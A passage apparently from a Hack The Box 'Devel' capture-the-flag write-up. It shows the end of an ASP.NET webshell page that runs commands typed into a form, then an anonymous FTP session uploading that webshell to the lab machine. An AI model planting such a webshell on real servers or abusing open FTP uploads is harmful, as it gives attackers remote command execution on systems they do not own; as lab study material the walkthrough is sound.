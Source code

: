 ```
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>

<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```

upload the webshell:

```
user@kali:~/hackthebox/hackthebox/devel/upload$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-21  10:06PM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (28.6500 MB/s)
ftp> 
```
